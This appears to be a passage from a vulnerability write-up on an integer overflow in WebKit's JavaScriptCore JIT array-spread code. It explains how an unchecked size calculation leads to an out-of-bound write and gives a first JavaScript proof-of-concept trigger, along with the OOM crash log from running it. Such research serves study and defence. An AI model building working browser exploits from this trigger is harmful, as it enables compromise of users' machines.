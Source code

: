 ```c++

    m_jit.store32(sizeGPR, MacroAssembler::Address(storageResultGPR, Butterfly::offsetOfPublicLength()));
    m_jit.store32(sizeGPR, MacroAssembler::Address(storageResultGPR, Butterfly::offsetOfVectorLength()));
}
```

We need to point out that there is no `overflow` check here, though there are `overflow` check with `length` calculation, but it just forget the `overflow` check in calculating the total memory `size`, so there is a `integer overflow` vulnerability  here.

For example, if there the total `length` of the new array is `0x20000001`, then the total size will be `(0x20000001<<3)&0xffffffff`, which is just `8`. When malloc out the space, it will copy all the elements to the new array, so forms a `out-of-bound write` vulnerability.

### build poc

We've understand the root cause of the vulnerability, now we need to build the `poc` to trigger the bug.

Before trying to build the poc, i need to explain why i compile the `asan` version first. The reason is that this is a  `out-of-bound write` vulnerability, if we don't go with `asan` version, we may be not aware that the bug has been trigged. However, it will goes error directly, if we trigger the bug in `asan` version.

The first version of `poc` should be like below:

```js
const MAX_ITERATIONS = 0x2000;

function foo(arr)
{
    return [...arr]
}

let arr = [1.1];
for(let i=0; i<MAX_ITERATIONS; i++) {
    foo(arr)
}

let a = new Array(0x20000001)                                                                  

a.fill(1.1)

foo(a)
```

when we run the `poc`, it just report the `SIGKILL`. Check the reason with `dmesg`, we can see that it causes a `oom` error here, which means that we can't alloc the array with `0x20000001` here.

```bash
$ ~/work/browser/webkit_svn/WebKitBuild/Debug/bin/jsc poc.js

[1]    96975 killed     ~/work/browser/webkit_svn/WebKitBuild/Debug/bin/jsc poc.js

$ dmesg
[143339.385393] oom-kill:constraint=CONSTRAINT_NONE,nodemask=(null),cpuset=/,mems_allowed=0,global_oom,task_memcg=/user.slice/user-1000.slice/session-2.scope,task=jsc,pid=96975,uid=1000
[143339.385436] Out of memory: Killed process 96975 (jsc) total-vm:91714004kB, anon-rss:7261120kB, file-rss:0kB, shmem-rss:0kB, UID:1000 pgtables:25976kB oom_score_adj:0
[143339.560176] oom_reaper: reaped process 96975 (jsc), now anon-rss:0kB, file-rss:0kB, shmem-rss:0kB
```
